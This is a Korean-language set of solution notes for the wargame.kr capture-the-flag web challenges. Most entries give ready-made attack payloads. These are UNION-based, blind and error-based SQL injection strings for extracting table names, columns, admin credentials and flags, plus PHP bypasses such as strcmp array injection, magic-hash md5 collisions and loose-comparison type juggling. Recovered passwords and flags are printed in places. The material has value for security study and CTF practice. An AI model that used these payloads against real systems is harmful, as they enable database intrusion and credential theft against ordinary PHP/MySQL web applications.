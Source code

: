 # wargame.kr

>md5 password

md5 raw hash 이용

ex) 129581926211651571912466741651878684928


>DB is really GOOD

"/" 입력후 취약점 발견

db 다운로드후 확인


>strcmp

strcmp 취약점 이용

배열이용 ex)strcmp($pass,$ps) -> $ps=$ps[]


>md5_compare

magic hash 취약점 이용

magic number = 240610708

magic string = QNKCDZO


>tmitter

db구조 주어짐 

회원가입 maxlength 조절 ex) "admin               asd"


>type_confusion

json 형식으로 값받음

느슨한 비교연산 

"PHP" == true  //true 이용

버프스위트로 값변환

{key : true}


>img_recovery

파일은 apng파일 

apng assembler이용하여 2개의 이미지 획득후 겹쳐주면됨


>php_c

32비트 int범위 -2,147,483,648 ~ 2,147,438,647

c 파일에서 중간에 5를 더해줌 

그래서 2,147,438,643에서 5 더해주면 -2,147,483,648가 됨


>web_chatting

공격위치 ni 

ni=36671 union select 1,table_name,3,4,5 from information_schema.tables-- 

table_name : chat_log_secret이 의심됨

ni=36671 union select 1,column_name,3,4,5 from information_schema.columns-- 

column_name : readme가 의심됨

ni=36671 union select 1,readme,3,4,5 from chat_log_secret-- 


>pyc decompile 

pyc파일을 디컴파일후 코드를 수정해서 flag를 얻고 입력

코드 수정시 현재 시간과 차이만큼 더해줘야함


>simpleBoard

union이용 쿠키에

공격위치 idx

union 가능 확인

idx=5 union select 1,2,3,4#

table명 확인

idx=5 union select table_name,2,3,4 from information_schema.tables#

table_name : README

컬럼명확인

idx=5 union select column_name,2,3,4 from information_schema.columns#

column_name : flag

idx=5 union select flag,2,3,4 from README#


>ip_log_table

blind sql injection

공격위치 idx 

false일때 1970-01-01 09:00:00 출력

true일때 서버시간 출력인듯?


' 필터링 

blind sql injection substr,ascii이용

table 찾기 

find table_name : ip_table, admin_table

idx="37869 and if(ascii(substr((select table_name from information_schema.tables order by table_type limit "+str(limit)
+",1)," + str(i) + ",1))=" + str(j) + ",1,0)"

find column_name : idx, id, ps

idx="37869 and if(ascii(substr((select column_name from information_schema.columns where table_name=0x"
+"admin_table".encode('hex')+" limit "+str(limit)+",1)," + str(i) + ",1))=" + str(j) + ",1,0)"

find id, ps : blue_admin, 0h~myp4ss!

idx="37869 and if(ascii(substr((select id from admin_table limit "+str(limit)+",1)," + str(i) + ",1))=" + str(j) + ",1,0)"

idx="37869 and if(ascii(substr((select ps from admin_table limit "+str(limit)+",1)," + str(i) + ",1))=" + str(j) + ",1,0)"


>lonely_guys

공격위치 sort 

mysql_real_escape_string($sort) sql injection 방어

authkey이용

table_name : guys_tbl

flag_length=40

idx=",(select 1 from guys_tbl,authkey where 1=1 and (length(authkey)="+str(length)+"))"

flag

idx=",(select 1 from guys_tbl,authkey where 1=1 and (ord(substr(authkey,"+str(i)+",1))="+str(j)+"))"


>dmbs335

공격위치 query_parts

태스트

query_parts=1 union select 1,2,3,4--

table_name : Th1s_1s_Flag_tbl

query_parts=1 union select table_name,2,3,4 from information_schema.tables--

column_name : f1ag

query_parts=1 union select column_name,2,3,4 from information_schema.columns where table_name='Th1s_1s_Flag_tbl'--

flag : 

query_parts=1 union select f1ag,2,3,4 from Th1s_1s_Flag_tbl-- 


>counting_query

공격위치: type

id=222.110.147.52&pw=asd&type=2 || row(1,1)=(select count(*), concat(ps,0x3a,floor(rand(0)*2)) as x from (select 1 union select 2 union select 3)y group by x limit 1)


>adm1nkyj

table_name : findflag_2

pw의 컬럼: and xPw4coaa1sslfe

id=' union select 1,&pw=,3,4,5%2

id: adm1ngnngn

id=' or 1=1 limit 0,1%23&pw=,3,4,5%23

pw: !@SA#$!

id=123' union select 1,xPw4coaa1sslfe,3,4,5 from findflag_2 where 1=1 limit 0,1%23&pw=

flag: surVvKIp0l1Cy48WLfi2q6tdwFTOJ3EboBxeQgMX7SGYkDAjcamNZ5PRnhUz9H

123' union select 1,d,3,4,5 from (select 1 as a,2 as b,3 as c,4 as d,5 as e union select * from findflag_2) as hh where 
1=1 limit 1,1%23

